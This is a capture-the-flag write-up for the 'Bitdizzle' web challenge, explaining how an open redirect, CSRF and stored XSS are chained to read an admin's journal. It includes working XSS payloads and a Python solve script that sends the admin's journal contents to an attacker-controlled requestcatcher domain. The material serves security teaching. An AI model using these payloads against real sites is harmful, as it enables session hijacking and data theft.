

# ASVCTF 2022 - Bitdizzle Writeup
- Type - Web
- Name - Bitdizzle
- Points - 300

## Description
```markdown
A popular journal writing app just came out. Can you read admin's journal?

https://bitdizzle.xyz/

Files:
* accounts/accounts.py
* journal/journal.py
```

(find provided files in [src](src/) folder)

## Writeup
This solution chained together multiple exploits, including CSRF, XSS, and an open redirect to steal another user's contents! I was lucky enough to have a teammate who was able to help me chain all of these together correctly because I struggled for quite a while with the CSRF vulnerability. Note that the goal is to read the journal of the `admin` account, which contains the flag.

Since they gave us the main code snippets for both the `accounts` and `journal` subdomains of bitdizzle.xyz, that meant source code review to check for bugs that we can exploit. 

### Authentication
The first thing to understand is how authentication works on this site - accessing any page without authentication will redirect you to the home page of accounts.bitdizzle.xyz, where you log in simply by entering a username (no password). Also note that you can't sign in with the `admin` account name. Once you sign in, there are two options presented - generate an OAuth token that allows you to sign into journal.bitdizzle.xyz, or send a link to the admin to visit. 

To generate an OAuth token for the account logged in, a GET request is made to the `/oauth_authorize` endpoint with two parameters - `client_id` (a static, site-wide code) and `redirect_uri`, which must start with `https://journal.bitdizzle.xyz/`. The default value for `redirect_uri` is `https://journal.bitdizzle.xyz/oauth_callback`. The server will verify both the `client_id` and `redirect_uri`, then generate a code attached to the account logged in, append it as a parameter to the `redirect_uri`, and automatically redirect the user to the `redirect_uri`. 

To be authenticated on journal.bitdizzle.xyz, the `/oauth_callback` endpoint must be accessed and a code provided. The journal server will then send a request to `https://accounts.bitdizzle.xyz/oauth_token`, and the accounts server will respond with what username (if any) is associated with the provided code.

To exploit the authentication system, all we need is an OAuth token for the `admin` user. The easiest way to do that is send the admin bot to the following URL - `https://accounts.bitdizzle.xyz/oauth_authorize?client_id=f45735d5a3b056b6&redirect_uri=https%3A%2F%2Fattacker.controller.domain%2Fadmin_oauth_token`. This would make the admin user automatically create an OAuth code to sign in and then send the admin to whatever URL we determine. If the URL is attacker-controlled (meaning we can see requests made to it), then we can capture the OAuth code and send it to the journal server, allowing us to be signed in as the admin user and see all the journal entries. 

Now, we run into a problem - a check is being done on the `redirect_uri` parameter that ensures the site starts with `https://journal.bitdizzle.xyz/`. If it only checked `https://journal.bitdizzle.xyz` (no `/`), then we could insert a URL like `https://journal.bitdizzle.xyz@attacker.controlled.domain/oauth_token`, and sent that link off. However, the extra `/` means the domain name is locked in, so we can't send it to our own domain. However, if we can somehow gain control of *any* page on the journals domain, we can steal the token.

### XSS
The last needed bug in the code was a stored XSS vulnerability. On line 44 of [journal.py](src/journal.py), the note content is pasted directly into the HTML (a `<script>` tag specifically, which is already bad practice) as JSON, but without any filtering. This meant that creating a note like `</script><script>alert('Malicious JS here')</script>` would allow us to run any JavaScript code we wanted on the main page.

### Review of Chained Exploits
* [Open redirect](https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html) - line 63 of [accounts.py](src/accounts.py), we can send the OAuth token to *any* webpage on journal.bitdizzle.xyz
* [CSRF](https://portswigger.net/web-security/csrf) - no CSRF tokens are in place + most of the parameters are GET parameters, meaning anyone clicking a malicious URL could cause them to perform actions they don't intend
* [XSS](https://portswigger.net/web-security/cross-site-scripting) - line 44 of [journal.py](src/journal.py), note content is directly pasted into the HTML, allowing an attacker to insert arbitrary HTML and JavaScript code

So the goal would be to chain those 3 exploits like so - we first (using CSRF) put a XSS payload in the admin's journal that will, when loaded in someone's browser, will send all GET parameters to an attacker-controlled domain (to steal the OAuth token), then we will have the admin bot create an OAuth token on accounts and set the `redirect_uri` parameter to the vulnerable page on journal.bitdizzle.xyz to trigger our XSS payload. Easy, right?

### Difficulty with CSRF
Journal entries are created by sending a POST request to `http://journal.bitdizzle.xyz/entries/`, with the JSON-formatted data. Normally, a cross-site POST request forgery can be achieved by sending the user to an attacker-controlled page that runs the following JavaScript:

```javascript
(async () => {
  const rawResponse = await fetch('https://journal.bitdizzle.xyz/entries/', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json'
    },
    body: JSON.stringify({title: "</script><script src='https://justinapplegate.me/test.js'>", body: "test2"})
  });
})();
```

However, running that code returns a CORS error. The gist of it is this - since the `Access-Control-Allow-Origin` header wasn't present on journal.bitdizzle.xyz and didn't allow POST requests from my domain, the CSRF attack failed (exactly to prevent this kind of thing). One work around is to add the `mode: 'no-cors'` to the object inside fetch. The problem I ran into was that this meant our `Content-Type` header was invalidated, and line 56 of [journal.py](src/journal.py) used the `flask.request.get_json()`, which by default **requires** the `Content-Type` header to be set to `application/json`. Even though we were sending it JSON-formatted data, the request would give us a 500 error since the `Content-Type` was incorrect. 

After a while of looking into bypassing this (even inspecting the Flask source code for unintended bugs and behaviors), I couldn't get past this. If I couldn't exploit the CSRF for the admin user, we could obtain the OAuth code to log in as admin. 

### Signing Admin into Another Account
This is when my teammate had the brilliant idea of signing the admin user into another malicious account on journals.bitdizzle.xyz. It didn't matter if the admin was signed into the admin account on journals.bitdizzle.xyz, as long as they visited a page with a XSS payload on it. So our strategy then turned to 1) making a brand-new account on accounts.bitdizzle.xyz, 2) authenticating to journals.bitdizzle.xyz, 3) leaving a XSS payload in the journal notes for that new account, and 4) making the admin account sign in to the brand-new account on journals.bitdizzle.xyz. 

After that, we could either exfiltrate the OAuth token, or just exfiltrate the content on the admin's original journal account.

### Solve Script
Here is my [automated exploit](solve.py) in Python:

```python
import requests, secrets

ATTACKER_CONTROLLED_DOMAIN = "https://dfsafsdfasdf.requestcatcher.com/"


# this ensures any cookies that we are given are sent in subsequent requests, even if not explicitly set
s = requests.Session()


# logins us into a random account on accounts.bitdizzle.xyz, then authenticates to the journal.bitdizzle.xyz server
r = s.post("https://accounts.bitdizzle.xyz/login",data={"username":secrets.token_hex(8)},allow_redirects=True)
r = s.get("https://accounts.bitdizzle.xyz/oauth_authorize?client_id=f45735d5a3b056b6&redirect_uri=https%3A%2F%2Fjournal.bitdizzle.xyz%2Foauth_callback")


# XSS payload that will have the admin log back into their account on journal.bitdizzle.xyz in a new window, then have the original window steal the contents (which will be the admin's journal entries) and exfiltrate to our domain
payload = """
</script><script>g = window.open('https://accounts.bitdizzle.xyz/oauth_authorize?client_id=f45735d5a3b056b6&redirect_uri=https%3A%2F%2Fjournal.bitdizzle.xyz%2Foauth_callback');  g.onload = () => { location.href=`"""+ATTACKER_CONTROLLED_DOMAIN+"""/xss?${JSON.stringify(g.initialProps)}`; }; </script>
"""

# now that we have our payload and are authenticated to journal, we will post our payload as a new entry
r = s.post("https://journal.bitdizzle.xyz/entries/",json={"title":"bad","body":payload})


# we generate another OAuth token for our random account, but disable redirects so we can get the location header without actually visiting it
r = s.get("https://accounts.bitdizzle.xyz/oauth_authorize?client_id=f45735d5a3b056b6&redirect_uri=https%3A%2F%2Fjournal.bitdizzle.xyz%2Foauth_callback",allow_redirects=False)


# make the admin sign in to the journal server with the OAuth token we just generated, forcing them to run our XSS payload on the main page
x = s.post("https://accounts.bitdizzle.xyz/submit_link",data={"link":r.headers["Location"]})

print("Exploit complete. Please visit your domain to view the journal entries that were exfiltrated.")

# logout
s.post("https://accounts.bitdizzle.xyz/logout")
```

Viewing my domain afterwards shows that the journal entry contents have been exfiltrated:



**Flag:** `ASV{m0re_lik3_N0AUTH_Am_i_r1GhT}`